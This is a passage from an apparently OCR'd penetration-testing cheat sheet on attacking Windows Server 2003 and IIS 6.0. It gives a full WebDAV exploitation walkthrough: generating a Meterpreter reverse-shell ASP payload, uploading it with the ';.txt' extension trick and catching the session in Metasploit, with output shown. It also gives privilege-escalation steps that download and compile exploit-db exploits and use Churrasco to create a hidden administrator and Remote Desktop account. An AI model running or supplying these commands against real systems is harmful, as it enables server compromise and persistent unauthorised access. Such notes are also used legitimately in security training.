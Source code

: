          echo REPORT COMPLETE!


-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853
         python pyinstaller.py --onefile exploit.py

-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

      https://www.exploit-db.com/exploits/6705/

      https://github.com/Re4son/Churrasco

         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/

          python pyinstaller.py --onefile ms11-080.py
          mx11-080.exe -O XP

-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:
